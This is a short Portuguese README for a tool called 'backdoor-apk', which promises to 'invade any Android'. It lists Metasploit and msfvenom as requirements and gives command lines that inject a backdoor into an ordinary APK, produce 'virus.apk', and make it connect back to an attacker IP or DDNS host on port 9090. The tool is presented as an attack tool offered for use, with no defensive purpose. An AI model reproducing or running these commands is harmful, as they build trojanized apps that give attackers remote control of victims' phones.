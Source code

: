 # backdoor-apk
Invada qualquer Android usando um APK!

Necessário o Perl, MSF(console e venom), um APK(qualquer) e porta aberta, é claro..

Para adcionar o Backdoor ao APK use por exemplo:

IP:
./backdoor-apk test.apk 192.168.1.143 9090 virus.apk

Host/DDNS:

./backdoor-apk test.apk fuckthisn0ip.ddns.net 9090 virus.apk

Meu canal no YT: https://www.youtube.com/channel/UC_0YeOjcY-d_Tq0Kvcf4CKg
